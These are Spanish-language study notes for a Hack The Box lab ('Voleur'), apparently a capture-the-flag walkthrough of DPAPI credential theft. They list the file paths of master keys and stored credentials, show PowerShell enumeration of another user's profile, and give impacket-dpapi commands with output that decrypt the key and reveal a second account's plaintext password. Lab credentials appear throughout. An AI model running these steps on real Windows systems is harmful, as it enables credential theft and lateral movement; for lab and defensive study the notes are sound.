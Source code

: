 
> [!DPAPI] DPAPI
> Data Protection API (DPAPI) es un metodo utilizado por sistemas windows para el cifrado simetrico de llaves privada asimetricas. Simplifica el cifrado para los desarrolladores permitiendoles cifrar datos utilizando una llave derivada de los secretos de inicio de sesion del usuario.

Existen varios metodos y herramientas para la extraccion y descifrado de claves dentro de DPAPI. Sin embargo, es importante considerar lo siguiente:
- La estructura de los datos cifrados se compone por **GUID (Global Unique Identifies)** y **SID (Security Identifies)**.
- **SID** corresponde al identificador del usuario que cifro los datos.
- **GUID** corresponde a la llave maestra que fue utilizada para el cifrado de datos.
- Combinando **SID** y **GUID** obtenemos la ruta de la llave maestra:
	- C:\PATH\TO\MASTER\KEY\\**{SID}**\\**{GUID}** 

>[!Fuentes] Fuentes
>[infosecwriteups](https://infosecwriteups.com/decrypting-dpapi-credentials-offline-8c8f27207956)
>[Credential Hunting DPAPI](https://htb.linuxsec.org/active-directory/credential-hunting/dpapi)
>[TLDR bins](https://tldrbins.github.io/dpapi/)

>[!Escenario] Escenario  
>Consideraremos el escenario de la maquina voleur de HTB. En esta maquina/escenario ya contamos con las credenciales **todd.wolfe:NightT1meP1dg3on14**. Obtendremos credenciales del usuario **jeremy.combs** por medio de credenciales almacenadas en DPAPI.

>[!Enumeracion] Enumeracion de credenciales DPAPI.

Archivos protegidos se encuentran usualmente ubicados en:
- C:\Users\username\AppData\Roaming\Microsoft\Protect\*
- C:\Users\username\AppData\Roaming\Microsoft\Credentials\*
- C:\Users\username\AppData\Roaming\Microsoft\Vault\*
- Tambien es cambia `\Roaming\` por `\Local\` en las rutas mostradas.

*Nota: Es posible enumerar con los comando **dir /A C:\PATH** y **Get-ChildItem  -Force**.*

Comenzaremos con la enumeracion.
1) Utilizando powershell listamos el contenido de la ruta **\Microsoft**.

```powershell
PS:> Get-ChildItem -Force C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\

# Salida
# Mode                 LastWriteTime         Length Name             
# ----                 -------------         ------ ----             
#d---s-         1/29/2025   7:13 AM                S-1-5-21-3927696377-1337352550-2781715495-1110                       
#-a-hs-         1/29/2025   4:53 AM             24 CREDHIST          
#-a-hs-         1/29/2025   4:53 AM             76 SYNCHIST  
```

**S-1-5-21-3927696377-1337352550-2781715495-1110** corresponde al **SID** del usuario **todd.wolfe**.

2) Utilizando el mismo metodo, listamos el contenido del **SID** previamente obtenido.

```powershell
PS:> Get-ChildItem -Force C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Protect\S-1-5-21-3927696377-1337352550-2781715495-1110\

# Salida 
# Mode                 LastWriteTime         Length Name             
# ----                 -------------         ------ ----             
#-a----         1/29/2025   4:53 AM            740 08949382-134f-4c63-b93c-ce52efc0aa88 
```

**08949382-134f-4c63-b93c-ce52efc0aa88** corresponde al **GUID** de la llave maestra. Es necesario descargar el archivo **08949382-134f-4c63-b93c-ce52efc0aa88** a nuestra maquina atacante

3) Para finalizar, enumeraremos el contenido del directorio **\Credentials**, en busca del 

```powershell
PS:> Get-ChildItem -Force C:\IT\Second-Line Support\Archived Users\todd.wolfe\AppData\Roaming\Microsoft\Credentials\

# Salida
# Mode                 LastWriteTime         Length Name             
# ----                 -------------         ------ ----             
# -a----         1/29/2025   4:55 AM            398 772275FAD58525253490A9B0039791D3 
```

**772275FAD58525253490A9B0039791D3** corresponde al archivo que contiene las credenciales almacenadas y cifradas. Tambien es necesario descargarlo en nuestra maquina atacante.

Llegando a este punto, ya es posible que descifremos los archivos y obtengamos credenciales en texto claro.

>[!impacket-dpapi] Descifrando contrasenas con  impacket-dpapi

*Nota: En caso de optar por obtener el valor Base64 de los archivos y decifrarlos en nuestra maquina loca, tener en cuenta que en ocasiones no funciona este metodo.*

1) Descifrando **masterkey**.

```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid "S-1-5-21-3927696377-1337352550-2781715495-1110" -password "NightT1meP1dg3on14"

# Salida Esperada

#Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

# [MASTERKEYFILE]
# Version     :        2 (2)
# Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
# <SNIP>

# Decrypted key with User Key (MD4 protected)
# Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
```

2) Obtener credentiales.

```bash
impacket-dpapi credential -f "772275FAD58525253490A9B0039791D3" -key "0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83"

# Salida Esperada.
#[CREDENTIAL]
# <SNIP>
# Username    : jeremy.combs
# Unknown     : qT3V9pLXyN7W4m
```



